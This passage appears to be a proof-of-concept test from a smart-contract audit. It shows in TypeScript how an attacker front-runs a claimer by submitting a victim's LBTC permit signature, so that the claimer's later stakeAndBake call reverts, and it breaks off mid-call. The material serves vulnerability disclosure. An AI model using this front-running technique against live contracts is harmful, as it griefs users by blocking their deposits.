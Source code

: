 ```
            // create permit payload
            const block = await ethers.provider.getBlock('latest');
            const timestamp = block!.timestamp;
            const deadline = timestamp + 100;
            const chainId = (await ethers.provider.getNetwork()).chainId;
            const { v, r, s } = await generatePermitSignature(
                lbtc,
                signer2,
                await tellerWithMultiAssetSupportDepositor.getAddress(),
                depositValue,
                deadline,
                chainId,
                0
            );

            permitPayload = encode(
                ['uint256', 'uint256', 'uint8', 'uint256', 'uint256'],
                [depositValue, deadline, v, r, s]
            );

            // make a deposit payload for the boringvault
            depositPayload = encode(
                ['address', 'uint256'],
                [await lbtc.getAddress(), depositValue]
            );
        });

        it('Frontrun attack leading to griefing calls to lbtc.mintWithFee()', async function () {
            const block = await ethers.provider.getBlock('latest');
            const timestamp = block!.timestamp;
            const deadline = timestamp + 100;
            const chainId = (await ethers.provider.getNetwork()).chainId;
            const { v, r, s } = await generatePermitSignature(
                lbtc,
                signer2,
                await tellerWithMultiAssetSupportDepositor.getAddress(),
                depositValue,
                deadline,
                chainId,
                0
            );


        //1. Attacker Frontruns the call to `lbtc.mintWithFee()` by claimer by calling `lbtc.permit()` with the signature    
            await lbtc.permit(
                signer2.address,
                tellerWithMultiAssetSupportDepositor.getAddress(),
                depositValue,
                deadline,
                v,
                r,
                s
            );

        //2. Now since the attacker called `lbtc.permit()`, claimers call to `lbtc.mintWithFee()` reverts with error `invalid-signature`

            await expect(
                stakeAndBake.stakeAndBake({
                    vault: await teller.getAddress(),
                    owner: signer2.address,
                    permitPayload: permitPayload,
```